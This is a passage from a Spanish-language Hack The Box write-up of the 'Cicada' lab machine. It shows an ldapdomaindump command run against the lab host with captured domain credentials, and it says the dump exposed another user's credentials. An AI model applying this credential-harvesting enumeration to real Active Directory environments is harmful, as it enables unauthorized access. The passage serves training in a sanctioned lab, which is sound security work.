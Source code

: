 ![](assets/img/htb-writeup-cicada/cicada3_1.png)

Luego, recolecté información del dominio con ldapdomaindump, utilizando las credenciales obtenidas.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ ldapdomaindump ldap://10.10.11.35 -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

De esta manera, encuentro las credenciales del usuario `david.orelious`.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ open domain_users.html
```

![](assets/img/htb-writeup-cicada/cicada3_2.png)

---